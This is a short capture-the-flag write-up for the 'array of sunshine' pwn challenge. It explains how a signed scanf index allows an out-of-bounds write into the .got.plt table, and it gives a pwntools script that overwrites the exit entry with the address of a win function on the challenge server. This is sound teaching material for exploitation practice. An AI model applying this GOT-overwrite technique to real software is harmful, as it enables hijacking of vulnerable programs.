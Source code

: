# array of sunshine

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/0b5d09d9-507b-4fc8-95af-4d40f85d6fe5)

see [./sunshine](./sunshine)

## solution

looking in binja

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/0915189d-a6b3-4749-b9db-9746d48021b1)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/ab908481-0777-4dfa-9fcf-ac4faf29ab7f)

so this code replaces an arbitrary segment of memory starting from the array, which is located just after the .got.plt

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/f81fe332-f0f4-44ff-befb-81e0db808251)

fortunately, this scanf input was `%i` which is a signed integer iirc

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/8d832bd2-5fbe-41eb-a544-6c5933bcc83d)

so to win, all i have to do is overwrite the .got.plt value of the exit function with the address of the win function

```py
from pwn import *

# p = gdb.debug(["./sunshine"], gdbscript="break *0x4015f2\nbreak *0x401654\nlayout asm\nwinheight asm -4\nc")
p = remote("chal.2023.sunshinectf.games", 23003)

p.sendline(b'-8')
p.sendline(p64(0x40128f))
p.interactive()
```
